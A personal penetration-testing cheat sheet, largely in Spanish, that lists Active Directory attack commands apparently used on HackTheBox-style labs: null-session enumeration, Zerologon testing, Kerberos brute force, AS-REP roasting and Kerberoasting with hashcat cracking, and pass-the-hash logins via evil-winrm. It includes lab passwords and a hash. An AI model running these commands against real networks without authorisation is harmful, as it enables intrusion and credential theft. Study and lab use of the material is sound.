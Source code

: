 ## WITHOUT USER

1.  Check [[RPC (135)]] null session:

```
    rpcclient <<IP>>
    rpcclient -U "" -N <<IP>>
```

2. Check [[SMB (139, 445)]] null session:

```
   
    crackmapexec smb {IP} --pass-pol -u "guest" -p ""
    
    smbmap -H {IP} -u null -p null
    smbmap -H {IP} -u guest
    
    smbclient -N -L //{IP}
    smbclient -N //{IP}/ --option="client min protocol"=LANMAN1
    
```

**!!NOTA IMPORTANTE!!** 
* Con la opción `--shares` para listar los directorios compartidos.

* Si queremos que continue sin que se pare en el primer éxito: `--continue-on-success`

**!!NOTA IMPORTANTE!!**  Buscar vulnerabilidades asociadas a SMB sobre todo si son equipos antiguos (EternalBlue)

3. Check [[LDAP (389, 636)]] to obtain interesting information (null credential):

```
ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
# or
./windapsearch.py -U --full --dc-ip <<IP>>

# or
crackmapexec ldap {IP} --pass-pol -u "" -p ""
```

4. Test [[ZEROLOGON]]

```
#En el virtual env que se encuentra en /home/kali/VENV/zerologon
source venv/bin/activate

python3 zerologon_tester.py MULTIMASTER 10.10.10.179 <DC NAME (Netbios)> <IP>
```

5.  [[BRUTE FORCE]] (Kerberos)

	* Herramienta: /home/kali/kerbrute/dist/kerbrute_linux_amd64

```
/home/kali/htb/intelligence/enumeration/kerbrute/dist/kerbrute_linux_amd64  userenum --dc <<IP DC>> -d <<DOMUNIO>> <<Lista de usuarios>> 

#Diccionario para enumerar usuarios -> /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

**!!NOTA IMPORTANTE!!** Aunque **Kerbrute nos de un hash de los usuarios ASEREPROASTEABLES** probar con impacket-GetNPUser con el usuario por que nos puede dar otro distinto. En algun ejemplo no me ha funcionado el hash que da Kerbrute.

6. Test otros servicios comunes: ssh, http, ftp, etc --> [[NMAP ENUMERATION CHECKLIST]]

7. NTLM RELAY + RESPONDER

## WITH USER

1. [[BRUTE FORCE]] (Kerberos)

	* Herramienta: /home/kali/kerbrute/dist/kerbrute_linux_amd64

```
/home/kali/htb/intelligence/enumeration/kerbrute/dist/kerbrute_linux_amd64  userenum --dc <<IP DC>> -d <<DOMUNIO>> <<Lista de usuarios>> 

#Si no encuentras nada prueba a aplicar fuerza bruta con el parametro bruteforce (pruebas los usuarios también como contraseñas)
```

**!!NOTA IMPORTANTE!!** Aunque **Kerbrute nos de un hash de los usuarios ASEREPROASTEABLES** probar con impacket-GetNPUser con el usuario por que nos puede dar otro distinto. En algun ejemplo no me ha funcionado el hash que da Kerbrute.

2. [[ASREPROAST]] (se le pasan usuarios sin contraseñas)

```
impacket-GetNPUsers -dc-ip 10.10.10.192 -no-pass -usersfile usuarios-kerberos.txt blackfield.local/
```

Si tenemos un usuario y una pass tambien podemos usar tambien ASEREPROAST para obener el ticket de otros usuarios (SIGUIENTE APARTADO)

Mejor comando ASREP:

````
impacket-GetNPUsers active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request -format john -outputfile hash
````

IMPORTANTE Para crackear la pass utilizar el siguiente comando:

```
sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --forc
```

Smbclient --> smbclient -U BLACKFIELD.local/support //10.10.10.192/NETLOGON 

Otros kerberos
## WITH USER AND PASS

1. [[WINRM]]

```
#Con usuario y contraseña:
evil-winrm -i <<IP>> -u <<usuario>> -p <<contraseña>>
#Ejm PTT
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

2.  Check [[SMB (139, 445)]] y comprueba si es vulnerable a PSEXEC

2. Check [[SMB (139, 445)]] y compruebas los recursos compartidos del usuario y si es vulenrable a PSEXEC (crackmapexec).

```
# Puedes checkearlo con crackmapexec y conectarte al recurso susando smb
smbclient -U <<DOMINIO>>/<<USUARIO>> //<<ip>>/<<RECURSO COMPARTIDO>>
# Ejemplo:
smbclient -U BLACKFIELD.local/support //10.10.10.192/NETLOGON
```

4. Comprueba el RDP (3389) -> Crackmapexec suele fallar

Manualmente:

```
xfreerdp  +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8  /u:stephanie /v:192.168.201.75
```

6. [[PASSWORD SPRAY]]

7. [[KERBEROASTING]]

```
impacket-GetUserSPNs <<domain name>>/<<username>>:<<password>> -outputfile <<krbroast>>
```

**!!NOTA IMPORTANTE!!** SI NOS DA ESTE ERROR --> TENEMOS QUE SINCRONIZARNOS

![[Pasted image 20230525200042.png]]

```
 ntpdate <IP of DC>
```

6. SI TENEMOS ACCESO COMPROBAR HISTORIAL DE USUARIO O MIARLO EN WINPEAS

```
(Get-PSReadlineOption).HistorySavePath
```

![[Pasted image 20230611154748.png]]
 5. GOLDEN/SILVER TICKETS

8. Vuelve a comprobar todo lo anterior pero con usuario y contraseña: rpc, smb, etc.

![[Pasted image 20230218131515.png]]
